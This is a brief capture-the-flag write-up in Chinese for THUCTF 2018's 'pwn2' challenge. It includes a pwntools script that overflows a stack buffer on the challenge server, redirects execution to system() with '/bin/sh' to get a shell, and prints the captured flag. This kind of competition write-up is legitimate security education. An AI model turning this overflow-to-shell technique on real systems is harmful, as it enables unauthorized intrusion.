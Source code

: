 pwn2 200 points
================

题意
-------------

Let's make it more challengable!

nc host port

Attachment: stackoverflow_withnoleak


解题步骤
-------------

同 [pwn1](pwn1.md) 。唯一不同就是 `system()` 的地址。修改一下即可。

脚本（见 [pwn2.py](pwn2.py) ）如下：

```python
from pwn import *
r = remote('pwn.thuctf2018.game.redbud.info', 20002)
r.send('/bin/sh\0'+'A'*(8192-8))
r.send('A'*8)
r.send(p32(0x00400560))
r.send('\n')
r.interactive()
```

得到 `flag`:

```
THUCTF{EnjoY_your_GAme_and_pwn_FOR_life_1on9!}
```
